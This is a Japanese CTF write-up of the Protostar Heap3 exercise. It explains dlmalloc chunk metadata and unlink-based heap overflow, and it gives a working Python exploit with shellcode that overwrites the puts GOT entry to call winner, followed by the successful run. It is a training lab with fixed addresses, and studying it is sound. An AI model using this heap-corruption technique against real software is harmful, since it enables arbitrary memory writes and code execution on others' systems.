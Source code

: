 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/endless/exploit-exercises-protostar-heap3/
  - /blog/2016/02/04/exploit-exercises-protostar-heap3/
date: 2016-02-04T05:14:02+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "dlmalloc", "heap-metadata" ]
---
```


# Exploit Exercises Protostar Heap3

前3問はよかったのに、これは急に難易度上がりすぎだし不親切なのよくないと思う。

つまりほぼ完全に他の人の解説に頼った。ある程度の理解と成長はしたはずなので許してください。

## [Protostar Heap3](https://exploit-exercises.com/protostar/heap3/)

### 問題

-   関数`winner`を呼ぶのが目標。
-   `malloc`や`free`がstaticにlinkされている。
    -   dlmallocであるとのこと。
    -   `free`のgotをoverwriteできない。
    -   `puts`のgotは存在する。
-   heapのアドレスは固定。
    -   これは与えられたvmの環境によるもの。
    -   手元で試す際はgdbの上で動けば成功としてよい。

### 解説

攻撃対象のコードは以下である。

``` c
int main(int argc, char **argv)
{
    char *a, *b, *c;

    a = malloc(32);
    b = malloc(32);
    c = malloc(32);

    strcpy(a, argv[1]);
    strcpy(b, argv[2]);
    strcpy(c, argv[3]);

    free(c);
    free(b);
    free(a);

    printf("dynamite failed?\n");
}
```

攻撃の流れは、`strcpy`でのbuffer overflowを使ってmallocの使うmetadataを書き換え、`free`の内部で`puts`のgotを書き換えさせる。`printf`は最適化により`puts`を呼び出す。

#### malloc[^1]

mallocは領域を効率良く確保/開放するためのライブラリである。
osに毎回領域を要求すると遅くなるので、まとまった量を確保し、これをchunkという単位に分けてユーザに渡す。

dlmallocはosから直接確保した領域をarenaとして管理する。
arenaはdlmallocが静的領域に持つ根から繋がる単方向連結リストとして保持される。
ただし今回は単一のarenaのみ考えればよい。

各arenaはそれに属する(未使用の)chunkの情報を持つ。
小さいchunkは単方向連結リスト(`fastbins`)で、大きめのchunkは双方向連結リスト(`bins`)で持つ。
このリストはそれぞれに関してもさらにchunkの大きさ別に複数本用意され、要求された大きさにちょうど合う未使用chunkを効率よく探せるようになっている。
小さいchunkを単方向に連結するのは時間/空間のoverheadを減らすためで、大きめのchunkを双方向に連結するのは前後の未使用chunkとの併合を効率良く行うため。

使用中のchunkのアドレスはユーザが保持しfreeの際渡されてくるので、arenaでは保持しない。
かなり大きいchunkはmmap systemcallで直接確保しfreeの際は即時munmapされるので、未使用の状態はない。

chunkが持つ情報は、そのchunkの大きさと状態によって変わる。
どのchunkも自分自身のchunkの大きさ(`head`, `size`)は保持している。
また、chunkの大きさは4の倍数であるので、このsizeの下位2bitに、そのchunkがmmapで確保されたかどうか(`IS_MMAPPED = 0x2`)、そのchunkの(空間上で)直前のchunkが使用中であるか(`PREV_INUSE = 0x1`)の情報が詰め込まれる。
chunkが未使用であれば、その未使用である領域を使って連結リストにおける前後のchunkのアドレスを持つ(`fd`, `bk`)。
さらに、大きめのchunkでありかつ(空間上で)直前のchunkが未使用であれば、その未使用の領域を使って直前のchunkの大きさ(`prev_foot` or `prev_size`)も保持する。
これにより、大きめのchunkはarenaからポインタを用いて繋がる連結リストに加え、空間上で前後のchunkとのoffsetによる別の連結リストの要素であるともいえる。

開放の処理に関して、小さいchunkであれば前後の領域との併合は試さず未使用chunkのリストにそのまま追加する。
大きめのchunkであれば前後の領域との併合を試す。
(空間上で)直前のchunkが使用中でないようなchunkを開放する際、これらを併合する。
直前のchunkは双方向連結リストの要素であるが、大きさが増加するため、元々のリストからは外され、再度別のリストに追加される。
直後のchunkに関しても同様に併合を試す。ただし直後のchunkが使用中であるかの情報は、直後のchunkの直後のchunkの直前のchunkが使用中であるかどうか、という形で取得される。

#### 攻撃

攻撃に関して、chunkの併合が発生した際のリストからの削除を用いることができる。
chunkのmetadataは以下のようになっている。

``` c
// ftp://g.oswego.edu/pub/misc/malloc-2.8.6.c L2182
struct malloc_chunk {
    size_t               prev_foot;  /* Size of previous chunk (if free).  */
    size_t               head;       /* Size and inuse bits. */
    struct malloc_chunk* fd;         /* double links -- used only if free. */
    struct malloc_chunk* bk;
};
```

chunk `p`を開放する際(ただしこれは`free(p+8)`として呼び出される)、直前のchunk `q = p - p->prev_foot`をそのリストから外す。つまり、

``` c
struct malloc_chunk *FD = q->fd;
struct malloc_chunk *BK = q->bk;
FD->bk = BK;  // *(FD + 0xc) = BK;
BK->fd = FD;  // *(BK + 0x8) = FD;
```

という処理が発生する。
heap上overflowが可能であれば`FD`と`BK`を操作できるので、好きなアドレスへの書き込みが可能となる。

ただし書き込みは複数回発生する。1回の併合に関して`FD->bk`と`BK->fd`で2回であり、もし前後のchunkの両方と併合するのであれば合計4回となる。
また、`BK`の値を書き込もうとすれば`BK->fd`を破壊することになるため、`BK`は書き込み可能な領域近くである必要がある。

よって攻撃の際におさえておくべき点は、

-   chunkの大きさを前後との併合が発生する大きさに変えること
-   書き込むアドレスは書き込み可能なアドレスにすること
-   直後のchunkの状態を使用中にしておくこと

の3点であろう。

あとはこれをやる。
[exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3) を参照。


### 実装

``` python
#!/usr/bin/env python3
import struct
p32 = lambda x: struct.pack('<I', x % (1<<32))
puts_got = 0x804b128 # $ objdump -R heap3 | grep '\<puts\>'
winner   = 0x8048864 # $ readelf -s heap3 | grep '\<winner\>'
heap     = 0x804c000 # gotten by gdb, but ...
a = b''.join([ # 32byte
    b'AAAA', # heap + 0x8, write here to puts's got
    b'\xeb\x06' + b'AA', # the `call <puts>' jumps to here, shellcode: jmp $eip+6
    b'AAAA', # BK->fd, written as a side effect
    b'\x68\x64\x88\x04', # shellcode: push 0x08048864 <winner>
    b'\x08' + b'\xc3' + b'AA', # shellcode: ret
    b'AAAA',
    b'AAAA',
    b'AAAA',
    ])
b = b''.join([ # 40byte (32byte + 8byte overflow)
    b'BBBB',
    b'BBBB',
    b'BBBB',     # virtual next next chunk addr
    p32(-8 + 1), # virtual next next chunk size and PREV_INUSE
    p32(-4), # virtual next chunk addr
    p32(-8), # virtual next chunk size
    b'BBBB',
    b'BBBB',
    p32(-4),   # prev_size
    p32(-16)]) # size
c = b''.join([ # 12byte
    b'CCCC',
    p32(puts_got - 0xc),  # virtual prev chunk fd
    p32(heap     + 0x8)]) # virtual prev chunk bk
shrepr = lambda x: '$' + repr(x)[1:]
print('$', './heap3', shrepr(a), shrepr(b), shrepr(c))
```

``` sh
$ ./heap3 $'AAAA\xeb\x06AAAAAAhd\x88\x04\x08\xc3AAAAAAAAAAAAAA' $'BBBBBBBBBBBB\xf9\xff\xff\xff\xfc\xff\xff\xff\xf8\xff\xff\xffBBBBBBBB\xfc\xff\xff\xff\xf0\xff\xff\xff' $'CCCC\x1c\xb1\x04\x08\x08\xc0\x04\x08'
that wasn't too bad now, was it? @ 1454528650
```

### 参考

-   [exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3)
    -   大半をこれに頼った
-   [malloc(3)のメモリ管理構造 \| VA Linux Systems Japan株式会社](http://www.valinux.co.jp/technologylibrary/document/linux/malloc0001/)
    -   これもけっこう役に立った
-   [ハンド (逆) アセンブルのための x86 ニーモニックの覚え方 - @a4lg のそろそろ技術的日記](http://d.hatena.ne.jp/a4lg/20120225/1330180431)
    -   shellcodeを読むのに
-   <ftp://g.oswego.edu/pub/misc>
-   [Beyond Zero-day Attacks（3）：ヒープに対する攻撃とその対策 (1/3) - ＠IT](http://www.atmarkit.co.jp/ait/articles/1408/28/news010.html)
-   [npca2014年部誌 glibcにおいてheap overflowによる任意のアドレス書き換えは可能か? - potetisensei](http://www.npca.jp/works/magazine/2014_10/)
-   [Glibc malloc internal](http://www.slideshare.net/kosaki55tea/glibc-malloc)

---

# Exploit Exercises Protostar Heap3

-   Fri Mar 18 18:47:27 JST 2016
    -   別の問題のため参照したついでにいくらか修正
